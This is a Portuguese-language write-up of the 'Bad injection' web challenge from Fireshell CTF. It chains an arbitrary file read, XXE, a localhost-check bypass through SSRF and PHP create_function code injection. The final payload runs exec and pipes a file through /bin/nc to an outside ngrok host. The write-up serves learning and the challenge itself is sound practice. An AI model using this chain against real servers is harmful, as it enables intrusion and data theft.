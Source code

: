 # Bad injection [ [Fireshell CTF] ](https://ctftime.org/event/727)

## Levantamento de informações 

![index](https://i.imgur.com/vtZ1BiQ.png)

Acessando as 3 primeiras abas disponíveis **home**, **about** e **contact**, nada de útil nos é apresentado. Mas, acessando a aba **List**, a página nos retorna o icone de uma "imagem
corrompida" ao lado da imagem carregada.

Analisando a source desta página, é possível ver uma passagem de parâmetros:

```
download?file=files/test.txt&hash=293d05cb2ced82858519bdec71a0354b

```

eis a "imagem corrompida". Com estes parâmetros, podemos ler qualquer arquivo dentro do server. Os requisitos são:
* o path do arquivo estar exato
* o parâmetro **hash** deve conter o md5 do arquivo buscado.

![listagem-diretorios](https://i.imgur.com/kVAupWz.png)


## Exploração

Varrendo o server, é possível encontrar o arquivo **Routes.php** dentro do diretório **/app/** onde é necessária alguma entrada de solicitação http.

    ...
    ...
    ...
    
    Route::set('custom',function(){
      $handler = fopen('php://input','r');
      $data = stream_get_contents($handler);
      if(strlen($data) > 1){
        Custom::Test($data);
      }else{
        Custom::createView('Custom');
      }
    });
    ...
    ...
    ...

E o arquivo **Custom.php** em **/app/Controllers/** .

    <br />
    <b>Notice</b>:  Undefined variable: type in <b>/app/Controllers/Download.php</b> on line <b>21</b><br />
    <?php
    
    class Custom extends Controller{
      public static function Test($string){
          $root = simplexml_load_string($string,'SimpleXMLElement',LIBXML_NOENT);
          $test = $root->name;
          echo $test;
      }
    
    }
    
     ?>


Utilizando do XXE, também podemos retornar arquivos do servidor.

![xxe](https://i.imgur.com/5aKPJVP.png)

## Localhost bypass

no arquivo **Routes.php** citado acima, também é possível ver o seguinte trecho de código:

```
Route::set('admin',function(){
  if(!isset($_REQUEST['rss']) && !isset($_REQUES['order'])){
    Admin::createView('Admin');
  }else{
    if($_SERVER['REMOTE_ADDR'] == '127.0.0.1' || $_SERVER['REMOTE_ADDR'] == '::1'){
      Admin::sort($_REQUEST['rss'],$_REQUEST['order']);
    }else{
     echo ";(";
    }
  }
})
```

Esse trecho verifica se a solicitação vem do localhost dentro de uma estrutura condicional. Caso venha, realizada a chamda em Admin::sort.

Observando o arquivo **Admin.php** (também baixado fuçando o server), vemos que Admin::sort contém:

    usort($data, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));


que nos dá uma clara injeção de código.

---
Desta forma, precisamos utilizar do XXE fazer o bypass da verificação do localhost e logo depois fazer uma request para /Admin, que nos retorna a execução remota de código.

o árduo payload:

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "http://127.0.0.1/admin?rss=http://SEU_IP/file.xml&order=link.file_get_contents('http://SEU_IP/'.exec('cat'.chr(32).'/da0f72d5d79169971b62a479c34198e7'.chr(124).'/bin/nc'.chr(32).'0.tcp.ngrok.io'.chr(32).'12776'))">
    ]>
    <root><name>&xxe;</name></root>

* o arquivo **file.xml** deve ser upado no seu servidor, com um rss válido com a route e adminsort para a request.

a saída:

![flag](https://i.imgur.com/FyBD4eq.png)

**Flag : f#{1_d0nt_kn0w_wh4t_i4m_d01ng}**

## Considerações finais

Não conseguimos matar a flag no decorrer do campeonato, mas depois de apanhar mais que saco que pancadas, a flag surgiu e com ela o aprendizado. Parabéns à equipe Fireshell por proporcionar um ótimo campeonato.


*[RSS W3schools](https://www.w3schools.com/xml/xml_rss.asp)